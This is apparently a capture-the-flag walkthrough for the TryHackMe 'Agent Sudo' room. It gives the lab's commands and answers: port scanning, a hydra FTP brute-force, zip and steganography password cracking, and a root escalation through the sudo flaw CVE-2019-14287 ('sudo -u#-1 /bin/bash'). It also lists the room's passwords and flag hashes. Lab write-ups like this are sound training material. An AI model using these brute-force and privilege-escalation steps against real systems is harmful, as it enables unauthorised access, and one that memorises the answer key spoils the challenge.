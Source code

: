 ```yaml
---
description: 'https://tryhackme.com/room/agentsudoctf'
---
```


# Agent Sudo

## INIT

```text
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```text
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](../.gitbook/assets/image%20%28451%29.png)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](../.gitbook/assets/image%20%28438%29.png)

> Switch User-Agent to C

![](../.gitbook/assets/image%20%28401%29.png)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```text
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](../.gitbook/assets/image%20%28406%29.png)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password 

![](../.gitbook/assets/image%20%28389%29.png)

```text
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28381%29.png)

{% hint style="success" %}
alien
{% endhint %}

### steg password 

```text
steghide extract -sf cute-alien.jpg
```

![](../.gitbook/assets/image%20%28422%29.png)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent \(in full name\)? 

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules!
{% endhint %}

## Task 4 Capture the user flag

### What is the user flag?

![](../.gitbook/assets/image%20%28404%29.png)

{% hint style="success" %}
b03d975e8c92a7c04146cfa7a5a313c7
{% endhint %}

### What is the incident of the photo called?

```text
scp james@agentsudo.thm:/home/james/Alien_autospy.jpg .
```

![](../.gitbook/assets/image%20%28407%29.png)

{% hint style="success" %}
Roswell Alien Autopsy
{% endhint %}

## Task 5 Privilege escalation

```text
sudo -l
```

![](../.gitbook/assets/image%20%28437%29.png)

### CVE number for the escalation 

![](../.gitbook/assets/image%20%28383%29.png)

![](../.gitbook/assets/image%20%28442%29.png)

{% hint style="success" %}
CVE-2019-14287
{% endhint %}

### What is the root flag? 

```text
sudo -u#-1 /bin/bash
cat /root/root.txt
```

{% hint style="success" %}
b53a02f55b57d4439e3341834d70c062
{% endhint %}

### \(Bonus\) Who is Agent R?

![](../.gitbook/assets/image%20%28396%29.png)

{% hint style="success" %}
DesKel
{% endhint %}

